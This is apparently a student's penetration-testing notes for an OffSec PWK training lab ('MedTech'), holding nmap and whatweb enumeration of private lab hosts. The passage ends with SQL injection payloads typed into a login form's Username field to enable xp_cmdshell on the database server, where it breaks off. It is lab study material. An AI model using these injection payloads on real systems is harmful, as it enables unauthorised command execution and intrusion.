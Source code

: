 ```json
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   4.14 ms   192.168.45.1
2   4.24 ms   192.168.45.254
3   743.80 ms 192.168.251.1
4   744.02 ms 192.168.161.122

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb  9 14:37:49 2025 -- 1 IP address (1 host up) scanned in 21.97 seconds
```
# 192.168.161.120 (WEB01)
## Enumeration
- HTTPd web server found named WEBrick httpd 1.6.1
	- PWK Awesome Website
- WhatWeb output for underlying web mechanisms
	```shell
	┌──(kali㉿kali)-[~/Desktop/Medtech]
	└─$ whatweb http://192.168.161.120
	http://192.168.161.120 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[WEBrick/1.6.1 (Ruby/2.7.4/2021-07-07)], IP[192.168.161.120], Open-Graph-Protocol[website], Ruby[2.7.4,WEBrick/1.6.1], Script[application/ld+json], Title[PAW! (PWK Awesome Website)]
	```
- GoBuster Directory Enumeration
	![[Pasted image 20250209145552.png]]
# 192.168.161.121 (WEB02)
## Enumeration
- HTTP IIS 10.0 Web server
	- MedTech home page\
	- Uses aspx
- WhatWeb
	```shell
	┌──(kali㉿kali)-[~/Desktop/Medtech]
	└─$ whatweb http://192.168.161.121
	http://192.168.161.121 [200 OK] ASP_NET[4.0.30319], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[192.168.161.121], JQuery[1.12.4], Meta-Author[Offensive Security], Microsoft-IIS[10.0], Modernizr[3.5.0.min], Script, Title[MedTech][Title element contains newline(s)!], X-Powered-By[ASP.NET], X-UA-Compatible[ie=edge]
	```
- Has WinRM port (5985)
- Login.aspx is vulnerable to SQL injection in the Username field:
	```sql
	# Check and Enable xp_cmdshell
	';EXECUTE sp_configure 'show advanced options',1--
	';RECONFIGURE;--
	';EXECUTE sp_configure 'xp_cmdshell',1--
	';RECONFIGURE;--
	